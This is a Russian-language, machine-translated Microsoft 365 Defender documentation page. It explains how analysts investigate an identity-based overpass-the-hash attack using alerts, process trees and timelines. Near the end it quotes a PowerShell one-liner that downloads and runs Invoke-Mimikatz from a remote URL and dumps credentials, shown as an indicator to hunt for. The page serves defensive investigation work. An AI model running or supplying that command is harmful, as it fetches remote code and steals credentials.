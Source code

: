 ```yaml
---
title: Пример атаки на основе удостоверений
description: Проанализив пример атаки на основе удостоверений.
keywords: инциденты, оповещения, расследование, корреляция, атака, компьютеры, устройства, пользователи, удостоверения, удостоверения, почтовый ящик, электронная почта, 365, Microsoft, m365, реагирование на инциденты, кибератака
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 204530b8b4a87215053ddcb0434e40e45271da3d
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: ru-RU
ms.lasthandoff: 06/08/2021
ms.locfileid: "52841010"
---
```

# <a name="example-of-an-identity-based-attack"></a>Пример атаки на основе удостоверений

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Область применения:**
- Microsoft 365 Defender

Microsoft Defender for Identity может помочь обнаружить вредоносные попытки компрометации удостоверений в организации. Так как Defender for Identity интегрируется с Microsoft 365 Defender, аналитики по безопасности могут иметь видимость угроз, исходяющих из Defender for Identity, таких как предполагаемые попытки повышения привилегий Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Анализ атаки в Microsoft Defender для удостоверений

Microsoft 365 Defender позволяет аналитикам фильтровать оповещения с помощью источника обнаружения на вкладке **Оповещения** на странице инцидентов. В следующем примере источник обнаружения фильтруется в **Defender for Identity.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Пример фильтрации источника обнаружения для Defender для identity":::

Выбор оповещений о предполагаемой атаке **overpass-the-hash** отправляется на страницу в Microsoft Cloud App Security, которая отображает более подробные сведения. Вы всегда можете узнать больше об оповещении или атаке, выбрав дополнительные инструкции по этому типу оповещения, чтобы прочитать описание атаки, а также рекомендации по исправлению.  [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Пример оповещений о предполагаемой атаке overpass-the-hash"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Исследование той же атаки в Microsoft Defender для конечной точки

Кроме того, аналитик может использовать Defender для конечной точки, чтобы узнать больше об активности на конечной точке. Выберите инцидент из очереди инцидента, а затем выберите **вкладку Оповещения.** Отсюда они также могут идентифицировать источник обнаружения. Источник обнаружения, помеченный как EDR, означает endpoint Detection and Response , который является Defender для конечной точки. Отсюда аналитик выбирает оповещение, обнаруженную EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Пример обнаружения и ответа конечной точки в Defender для конечной точки"::: 

На странице оповещений отображаются различные сведения, такие как имя устройства, имя пользователя, состояние автоматического расследования и сведения об оповещении. В этой истории оповещений повествуется визуальное представление дерева процесса. Дерево процесса представляет собой иерархическое представление родительских и детских процессов, связанных с оповещением.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Пример дерева обработки оповещений в Defender для конечной точки"::: 

Каждый процесс можно расширить, чтобы просмотреть дополнительные сведения. Сведения, которые может видеть аналитик, это фактические команды, которые были введены в составе вредоносного скрипта, IP-адресов исходящие подключения и другие полезные сведения.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Пример сведений о процессе в Defender для конечной точки":::
 
Выбрав график См. в **графике,** аналитик может еще больше сверлить, чтобы определить точное время компромисса. 

Microsoft Defender для конечной точки может обнаруживать множество вредоносных файлов и скриптов. Однако из-за множества законных применений для исходящие подключения, PowerShell и командной строки некоторые действия будут считаться доброкачественными, пока не создадут вредоносный файл или действие. Поэтому использование временной шкалы помогает аналитикам ввести оповещение в контекст с окружающими действиями, чтобы определить исходный источник или время атаки, которые в противном случае не заслонятся общей файловой системой и действиями пользователей. 

Для этого аналитик начнет во время обнаружения оповещений (красным цветом) и вовремя прокрутит вниз назад, чтобы определить, когда первоначальное действие, которое привело к вредоносной активности, на самом деле началось. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Пример запуска во время обнаружения оповещений"::: 

Важно понимать и различать общие действия, такие как подключения Windows Update, Windows доверенный трафик активации программного обеспечения, другие распространенные подключения к сайтам Майкрософт, сторонние действия в Интернете, Microsoft Endpoint Configuration Manager активности и другие доброкачественные действия от подозрительной активности. Один из способов добиться этого — использовать фильтры временной шкалы. Существует множество фильтров, которые могут выделить определенные действия, отфильтровывая все, что аналитик не хочет просматривать. 

На рисунке ниже аналитик фильтруется для просмотра только сетевых событий и процессов. Это позволяет аналитику видеть сетевые подключения и процессы, связанные с событием, Блокнот установлено подключение с IP-адресом, которое мы также видели в дереве процесса. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Пример использования Блокнот для подключения к вредоносным исходящие"::: 

В этом конкретном событии Блокнот для подключения к вредоносным исходящие. Однако часто злоумышленники просто iexplorer.exe для создания подключений для загрузки вредоносной полезной нагрузки, так как обычно iexplorer.exe обычно считаются обычными действиями веб-браузера.

Другим элементом, который следует искать в временной шкале, является использование PowerShell для исходящие подключения. Аналитик будет искать успешные подключения PowerShell с командами, такими как исходящие подключения к веб-сайту, на который размещен `IEX (New-Object Net.Webclient)` вредоносный файл. 

В следующем примере PowerShell использовалась для скачивания и выполнения Mimikatz с веб-сайта:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Аналитик может быстро искать ключевые слова, введя ключевое слово в панели поиска, чтобы отображать только события, созданные с помощью PowerShell. 

## <a name="next-step"></a>Следующий этап

См. [путь к расследованию фишинга.](first-incident-path-phishing.md)

## <a name="see-also"></a>См. также

- [Обзор инцидентов](incidents-overview.md)
- [Управление инцидентами](manage-incidents.md)
- [Исследование инцидентов](investigate-incidents.md)
